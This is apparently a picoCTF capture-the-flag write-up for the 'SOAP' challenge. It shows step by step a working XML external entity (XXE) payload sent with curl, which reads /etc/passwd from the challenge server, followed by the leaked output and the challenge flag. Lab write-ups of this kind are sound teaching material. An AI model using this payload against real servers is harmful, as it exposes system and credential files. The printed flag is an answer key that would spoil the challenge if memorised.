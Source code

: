 # SOAP
In this challenge we were given the following website:http://saturn.picoctf.net:56852/ i had to read the flag from /etc/passwd.
We were told that the website was rushed and security features were compromised so that hints that we can exploit this somehow.
I saw the hints for the challenge and found out that i had to perform xml external entity injection(XXE).

Basically XXE is a method to read or access sensitive infor of a website by sending a malicious payload.
I had a number of ways to do this as i found out about burpsuite,postman,curl.
Since curl could be done on wsl i proceeded with that. 

To know about xxe and how to craft my payload i went to this website : https://portswigger.net/web-security/xxe

After this i went to wsl and tried using curl with a basic payload but i didnt have any info about how to make the payload i got this output for a general payload:
```
aditya_cryptonite@DESKTOP-SG1LV2M:~$ curl -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>' http://saturn.picoctf.net:64010/
<!doctype html>
<html lang=en>
<title>405 Method Not Allowed</title>
<h1>Method Not Allowed</h1>
<p>The method is not allowed for the requested URL.</p>
```

I found out that i could get some info from the networks tab in developer tools so i went there but saw nothing in the network traffic.
So i interacted with the website by pushing some buttons and got this :

![image](https://github.com/user-attachments/assets/4467355c-326a-455e-aa59-f6f23978acfa)

Now we have enough info to make the payload:
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<data><ID>&xxe;</ID></test>
```
And now we will send this using curl by using the request URL: http://saturn.picoctf.net:64010/data and the request method: POST (obtained from the networks tab as well)
```
aditya_cryptonite@DESKTOP-SG1LV2M:~$  curl -X POST -H "Content-Type: application/xml" -d '<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><data><ID>&xxe;</ID></data>' http://saturn.picoctf.net
:64010/data
```
we get the output(contents of /etc/passwd) where the flag lies :
```
Invalid ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
flask:x:999:999::/app:/bin/sh
picoctf:x:1001:picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
```
### Flag:
>picoCTF{XML_3xtern@l_3nt1t1ty_4dbeb2ed}
